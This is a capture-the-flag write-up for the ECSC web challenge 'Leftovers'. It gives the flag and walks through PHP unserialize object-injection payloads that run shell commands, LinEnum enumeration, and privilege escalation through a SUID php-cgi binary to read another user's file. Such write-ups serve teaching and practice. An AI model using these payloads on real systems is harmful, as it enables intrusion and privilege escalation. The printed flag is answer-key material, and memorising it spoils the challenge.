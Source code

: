 # Leftovers
- Flag: `ECSC{ef9a617ce799f76035269111f29ddf61c0271435ecb2a357de07b5b0e6e41b24}`
- Category: `web`
- Points: `465`

## Summary
Code injection through PHP unserialize vulnerability and PHPObjectInjection, LinEnum and privilege escalation through PHP CGI.

Send this input:
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:53:"system('/usr/bin/php-cgi5.6 /home/flavius/flag.txt');";}`

## Proof of Solving
We got an input with a placeholder that looks like a php serialized data and if we submit some data like this `a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}`, we get the unserialized version.
![](./screenshots/1.png)

`a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}`

After some research, I found that I can use the PHPObjectInjection to execute some shell code.
![](./screenshots/2.png)

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('ls');";}`

Looks like it works. After I searched through files, I found a flag.txt file in `/home/flavius/flag.txt`, but unfortunately, we (www-data) don’t have access to read this file so we need to escalate privileges.
![](./screenshots/3.png)

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:27:"system('ls /home/flavius');";}`

For this we’ll use LinEnum. It looked like we already had this script in /tmp at that time so we will use that with this payload:
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:61:"system('cd /tmp;./LinEnum.sh -k flag -r report -e /tmp/ -t');";}`

In the printed output of the LinEnum, we will see that we have SUID and SGID on `/usr/bin/php-cgi5.6`

After some trial and error, I ran the CGI with the flag.txt path as a parameter and I got the flag:
![](./screenshots/4.png)

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:53:"system('/usr/bin/php-cgi5.6 /home/flavius/flag.txt');";}`
